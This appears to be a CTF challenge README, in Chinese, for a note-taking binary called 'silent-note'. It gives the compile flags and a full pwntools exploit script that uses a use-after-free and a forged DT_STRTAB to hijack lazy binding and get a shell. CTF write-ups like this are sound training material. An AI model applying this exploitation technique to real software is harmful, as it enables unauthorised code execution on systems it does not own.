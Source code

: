 # silent-note

UAF利用与延迟绑定机制利用

难点：利用延迟绑定机制getshell

## 编译方法

```
gcc silent-note.c -o silent-note -O0 -fstack-protector-all -z noexecstack -fPIE -no-pie -s
```

说明：

+ `-fstack-protector-all`全面开启canary防护
+ `-z noexecstack`开启NX防护
+ `-fPIE -no-pie`关闭内存随机化
+ `-O0`关闭代码优化
+ `-s`删除调试符号

## exp

没有任何回显，无法通过泄露libc地址计算system等函数的地址

getshell原理：通过伪造`DYNAMIC`段中`DT_STRTAB`对函数进行定位的字符串表，来控制延迟绑定时所绑定的函数

```python
#!/usr/bin/python
# -*- coding: utf8 -*-

from __future__ import print_function
from pwn import *

context.log_level='debug'

elf = ELF('./silent-note')
io = process('./silent-note')

def new_note(size, content):
    io.sendline('1')
    io.sendline(str(size))
    io.send(content)

def edit_note(index, content):
    io.sendline('2')
    io.sendline(str(index))
    io.send(content)

def delete_note(index):
    io.sendline('3')
    io.sendline(str(index))



new_note(128, 'a' * 128)
new_note(128, 'b' * 128)
new_note(8, '/bin/sh\x00')
delete_note(0)
delete_note(1)
new_note(16, p64(256) + p64(elf.bss() + 0x800))
payload = '\x00libc.so.6\x00exit\x00__isoc99_scanf\x00__stack_chk_fail\x00stdin\x00calloc\x00memset\x00read\x00stdout\x00mprotect\x00stderr\x00setvbuf\x00__libc_start_main\x00system\x00'.ljust(256, 'c')
edit_note(0, payload)
edit_note(3, p64(8) + p64(0x601EB0))
edit_note(0, p64(elf.bss() + 0x800))
edit_note(3, p64(8) + p64(elf.got['free']))
edit_note(0, p64(0x4006C6))
delete_note(2)

io.interactive()

```